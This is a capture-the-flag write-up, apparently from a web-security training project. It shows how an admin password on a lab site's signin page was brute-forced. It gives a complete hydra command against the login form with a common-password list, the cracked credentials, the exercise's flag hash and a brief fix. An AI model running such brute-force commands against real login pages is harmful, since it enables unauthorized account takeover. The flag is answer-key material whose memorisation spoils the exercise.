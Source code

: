 # Bruteforce Members Credentials

## Flag

B3A6E43DDF8B4BBB4125E5E7D23040433827759D4DE1C04EA63907479A80A6B2

## Description

Reproduce the admin exploit on the members page

## URL

http://192.168.x.y/?page=signin

## Steps To Reproduce

Let's do it fast, payload :
`hydra -t 64 -l admin -P 1000-most-common-passwords.txt 192.168.x.y http-get-form '/:page=signin&username=^USER^&password=^PASS^&Login=Login:Wrong'`
password : [80][http-get-form] host: 192.168.x.y login: admin password: shadow

So we login with admin/shadow as credentials.
As the great Julien lepers would say, along with Daft Punk, "One more time, Oui oui oui !"

## Why is it dangerous ?

Any attacker can impersonate any other user.

## Possible fixes

- Choose a secure password.

## Resources

- [1000-most-common-passwords.txt](https://github.com/jeremie-gauthier/Darkly/blob/master/1000-most-common-passwords.txt)
